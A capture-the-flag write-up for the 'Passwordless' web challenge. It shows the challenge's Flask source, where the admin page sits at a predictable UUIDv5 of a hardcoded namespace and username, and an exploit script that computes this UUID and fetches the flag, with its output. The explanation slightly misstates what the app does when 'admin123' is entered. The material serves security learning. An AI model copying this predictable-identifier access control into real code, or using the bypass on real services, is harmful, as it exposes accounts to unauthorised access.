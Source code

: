 					
![Alt Text](/b525cca891743bde0dd6216253c5fda9.png)
## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```
